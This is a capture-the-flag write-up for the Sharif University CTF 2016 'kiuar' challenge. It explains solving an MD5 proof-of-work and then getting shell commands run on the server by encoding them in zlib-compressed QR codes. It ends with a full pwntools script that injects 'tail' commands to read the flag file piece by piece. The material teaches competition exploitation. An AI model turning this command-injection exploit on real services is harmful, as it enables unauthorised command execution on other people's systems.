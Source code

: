 ```yaml
---
layout: post
title:  "Sharif University CTF 2016: kiuar (pwn 200)"
author: skogler
categories: writeup
---
```


* **Category:** pwn
* **Points:** 200
* **Description:**

```
telnet ctf.sharif.edu 12432
Trying 213.233.175.130...
Connected to ctf.sharif.edu.
Escape character is '^]'.
Welcome to Sharif blackbox challenge :)
Proof of work: Are you ready?
Give me a 32-bit hex integer, whose leftmost 22 bits of its MD5 is 1000001010110000011101.
You have 60 seconds to reply.
```

## Write-up

When connecting to the given server address, it would present us with the above
task. The challenge was to compute the MD5 of a 32-bit integer so that the
leftmost 22 bit of the MD5 would match the given value. The bits to match
changed every time a new connection is established, but the length was fixed.
The server would also reject any input with less than 5 characters.

Our approach was to just loop over all integers and calculate MD5 hashes until
one matches the given bits.

This seemed quite easy at first, but the server would not accept my computed
values. Thankfully, my colleague did interpret the task differently; he found
out that we needed to compute the MD5 of the *hex string representation* of the
32-bit integer, so something like this:

```python
result_md5 = hashlib.md5(hex(i))
```

This finally worked, which brought us the next step of the challenge. We got
these bytes from the server:

```
00000000  78 9c 0b 4e  cd 4b 51 a8  cc 2f 2d 52  08 0c 52 48  │x··N│·KQ·│·/-R│··RH│
00000010  ce 4f 49 b5  e2 8a cc 2f  55 c8 48 2c  4b 55 30 34  │·OI·│···/│U·H,│KU04│
00000020  50 28 4e 4d  ce cf 4b 29  56 28 c9 57  28 4a 2d c8  │P(NM│··K)│V(·W│(J-·│
00000030  a9 d4 e3 02  00 9b f3 10  54                        │····│····│T│
```

We saved this to a file and ran the ```file``` tool on it:

```
result: zlib compressed data
```

Nice, so just run ```zlib.decompress``` on it in python:

```
Send your QR code:
You have 10 seconds to reply.
```

It seemed we could send some data hidden within a QR code. However, sending
this code was not quite easy. The first problem was that the server would only
accept messages compressed with zlib:


```
Your data is not in proper compressed format :(
```

This was solved by compressing the message using zlib. However, we also needed
to get a message of exactly 200 bytes, since the server would reject everything
else. To solve this, we compressed the payload first, then padded the message
with zero bytes so it had a  length of exactly 200.

The hard part was getting a QR code with a size smaller than 200 bytes. It
seems the typical tools to generate QR codes do not optimize for size at all.
After a long time of trial and error, we ended up with the following command to
generate the PNG QR code:

```
qrencode -s 1 -v 1 -m 1 -o test.png "<payload>" && optipng test.png
```

If the length of the payload was not too long (20 bytes or so, depending on the
characters), this would suffice.  It also took us quite a while to find out
that the server would only recognize the QR code if it had a margin of at least
1 pixels.

When finally succeeded, we found out that we could send shell commands inside the QR code.
There was a file called flag in the server's working directory, which we needed to read:

```
Flag: The output of your command is large, I only send 18 bytes of it :P 
    SharifCTF{b5ffb0e6
```

Since the organizers did not allow us to just cat the file, we needed to run
the script multiple times and inject tail commands with different offsets to
reconstruct the flag manually.

Finally, here is the script we used to get the flag:

```python
#!/usr/bin/env python2
# -*- coding: utf-8 -*-

import ctypes
import struct
import hashlib
import sys
import zlib
import os
from pwn import *

context.log_level = 'info'


commands = [
        "tail -c 18 flag",
        "tail -c 36 flag",
        "tail -c 54 flag",
        ]

results = list()

for command in commands:
    os.system('qrencode -s 1 -v 1 -m 1 -o test.png "' + command + '" && optipng test.png')
    zcode = ""

    with open('test.png') as qrfile:
        qrbytes = qrfile.read()
        zcode = zlib.compress(qrbytes)
        print("len: {}".format(len(zcode)))
        zcode = zcode.ljust(200, '\x00')
        print("len: {}".format(len(zcode)))
        if len(zcode) > 200:
            sys.exit()

    conn = remote('ctf.sharif.edu', 12432)
    conn.recvline()
    conn.recvline()
    challenge = conn.recvline()

    data = ctypes.create_string_buffer(4)
    m = hashlib.md5()

    target_bits = challenge.split(" ")[-1][:-2]

    conn.clean_and_log()

    lower_bound = 0x100000
    upper_bound = 2**32

    for i in xrange(lower_bound, upper_bound):
        integer_hex         = hex(i)
        integer_hex_encoded = integer_hex.encode('utf-8')
        integer_hex_md5 = hashlib.md5()
        integer_hex_md5.update(integer_hex_encoded)

        md5 = integer_hex_md5.hexdigest()

        binary = bin(int(md5, 16))[2:]

        if binary.startswith(target_bits):
            #print("Hash {}".format(md5))
            conn.send(hex(i))
            break

    conn.recvline()
    result = conn.recv()

    with open('test.png') as qrfile:
        qrbytes = qrfile.read()
        zcode = zlib.compress(qrbytes)

        zcode = zcode.ljust(200, '\x00')
        conn.send(zcode)

    conn.recvline()
    res = conn.recv()
    log.info(res)

    results.append(res)

    conn.close()

log.info(",\n".join(results))
```

